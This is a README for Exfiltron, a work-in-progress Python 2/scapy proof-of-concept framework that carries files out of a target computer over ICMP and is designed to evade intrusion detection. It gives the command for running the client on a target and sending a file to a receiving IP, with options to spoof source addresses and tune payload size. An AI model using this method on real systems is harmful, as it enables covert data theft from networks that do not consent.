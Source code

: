 # Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have python 2 installed on both the server and the client side
* You must have scapy installed on both the server and the client side

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command:
`python exfiltron.py exfiltrationMethod -filename -IPaddressThatIsRecieving
TheData [-h] [-s] [-a]`
-h is help. -s is an option to change the source IP address on the
packets you send out. It should be noted that this is risky. The target
network should not be running any DHCP snooping software if you use this option.
-a is the amount of data you want to fit into each packet. The default is the
number of bits that normally sit in that packet while the min amount is 1 bit
and the max amount is the MTU minus the size of the packet.

Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels
